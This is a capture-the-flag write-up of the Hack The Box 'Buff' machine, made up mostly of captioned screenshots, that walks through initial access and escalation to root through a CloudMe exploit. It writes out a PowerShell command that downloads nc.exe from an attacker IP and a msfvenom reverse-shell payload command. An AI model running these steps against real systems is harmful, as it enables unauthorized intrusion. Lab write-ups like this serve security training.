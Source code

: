 https://app.hackthebox.com/machines/Buff

Use nmap to find for open ports.

![image](https://user-images.githubusercontent.com/93418272/183552626-acc64edd-8e7f-452a-9087-fc55ffe8ab4f.png)


Webserver shows a fitness based company.

![image](https://user-images.githubusercontent.com/93418272/183552646-067596a4-f8a9-4b73-a07a-abf7c73f57de.png)


In the contact page we can find the interface used for the site.

![image](https://user-images.githubusercontent.com/93418272/183552663-1b442bef-516c-4f4d-91ff-0766f29bb76d.png)


Searchsploit gives us some options.

![image](https://user-images.githubusercontent.com/93418272/183552684-ea461de6-fb9f-4621-81f8-0c9e9fc1ed7d.png)


Download the file.

![image](https://user-images.githubusercontent.com/93418272/183552714-b2023431-0bae-4bf7-bccf-6830b0e17f0a.png)


Access gained.

![image](https://user-images.githubusercontent.com/93418272/183552731-6139c7a7-217c-41d0-86a1-986b12a12e85.png)


To get a better shell upload nc.exe via a python server.

powershell Invoke-WebRequest -Uri http://10.10.14.23:81/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe

![image](https://user-images.githubusercontent.com/93418272/183552747-00d68827-5a3d-4a50-bd3a-357b99ad2c71.png)


Run netcat and start a listener on your attacking machine

![image](https://user-images.githubusercontent.com/93418272/183552760-720c8e9d-a54d-4920-aa28-8f76979a7f1b.png)

![image](https://user-images.githubusercontent.com/93418272/183552775-370e05e6-7fa6-4a6c-b643-1f722c386419.png)


First flag is found.

![image](https://user-images.githubusercontent.com/93418272/183552782-57c6e231-8b4d-4939-8656-014ca877671e.png)


While exploring we notice the CloudMe file that is running on tasklist

![image](https://user-images.githubusercontent.com/93418272/183552801-77f0f734-7f9f-4abb-be6f-c258013f91ee.png)

![image](https://user-images.githubusercontent.com/93418272/183552818-6fe3c321-41a7-4f65-854b-4e3354662655.png)


There is an exploit online.

![image](https://user-images.githubusercontent.com/93418272/183552833-b4a3a2b9-c17d-4b8b-8f01-4c464bcf0295.png)


We need to modify the payload of our own.

![image](https://user-images.githubusercontent.com/93418272/183552848-dd24a65c-b724-44b3-aab3-87801ed98b85.png)


msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=8700 -f py -v payload

Copy and paste the msfvenom payload to the python exploit.

Port forwarding

![image](https://user-images.githubusercontent.com/93418272/183552871-21c96f11-f2c1-4935-8b00-8237899f2130.png)


Upload chisel.exe to the windows machine.

![image](https://user-images.githubusercontent.com/93418272/183552911-6ff49671-29f4-437e-872f-bfb9b2c731b5.png)

![image](https://user-images.githubusercontent.com/93418272/183552960-b51c94ed-5d2a-4a55-aaf2-9ac9325aa800.png)


Start a chisel server on the attacking machine.

Start the chisel.exe on the windows machine.

Start a nc listener for the exploit.

![image](https://user-images.githubusercontent.com/93418272/183553027-3d5549eb-5495-4786-9282-204e9f87028b.png)


Run the exploit

Root access is gained.

![image](https://user-images.githubusercontent.com/93418272/183553073-0eef2a61-6589-45ae-a0b8-4453431f96db.png)


Final flag is found.

![image](https://user-images.githubusercontent.com/93418272/183553084-b31ab2f0-6b9a-4104-8554-9fb9d042793a.png)
